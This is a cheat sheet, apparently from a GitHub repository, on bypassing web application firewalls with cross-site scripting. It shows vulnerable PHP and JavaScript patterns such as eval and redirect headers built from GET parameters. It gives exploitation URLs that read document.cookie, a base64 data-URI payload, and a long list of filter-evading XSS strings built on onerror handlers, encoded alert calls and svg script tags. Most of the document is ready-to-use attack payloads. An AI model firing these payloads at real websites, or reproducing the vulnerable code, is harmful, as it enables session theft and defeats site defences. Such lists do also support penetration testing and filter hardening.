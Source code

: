 ## Methods to Bypass WAF – Cross-Site Scripting

### General issues

#### Stored XSS

If an attacker managed to push XSS through the filter, WAF wouldn’t be able to prevent the attack conduction.

#### Reflected XSS in JavaScript

```
Example: <script> ... setTimeout(\\"writetitle()\\",$\_GET\[xss\]) ... </script>
Exploitation: /?xss=500); alert(document.cookie);//
```

#### DOM-based XSS

```
Example: <script> ... eval($\_GET\[xss\]); ... </script>
Exploitation: /?xss=document.cookie
```

#### XSS via request Redirection

- Vulnerable code:

```
...
header('Location: '.$_GET['param']);
...
```

As well as:

```
..
header('Refresh: 0; URL='.$_GET['param']); 
...
```

- This request will not pass through the WAF:

`/?param=<javascript:alert(document.cookie>)`

- This request will pass through the WAF and an XSS attack will be conducted in certain browsers.

`/?param=<data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4=`

### WAF ByPass Strings for XSS


- `<Img src = x onerror = "javascript: window.onerror = alert; throw XSS">`
- `<Video> <source onerror = "javascript: alert (XSS)">`
- `<Input value = "XSS" type = text>`
- `<applet code="javascript:confirm(document.cookie);">`
- `<isindex x="javascript:" onmouseover="alert(XSS)">`
- `"></SCRIPT>”>’><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>`
- `"><img src="x:x" onerror="alert(XSS)">`
- `"><iframe src="javascript:alert(XSS)">`
- `<object data="javascript:alert(XSS)">`
- `<isindex type=image src=1 onerror=alert(XSS)>`
- `<img src=x:alert(alt) onerror=eval(src) alt=0>`
- `<img  src="x:gif" onerror="window['al\u0065rt'](0)"></img>`
- `<iframe/src="data:text/html,<svg onload=alert(1)>">`
- `<meta content="&NewLine; 1 &NewLine;; JAVASCRIPT&colon; alert(1)" http-equiv="refresh"/>`
- `<svg><script xlink:href=data&colon;,window.open('https://www.google.com/')></script`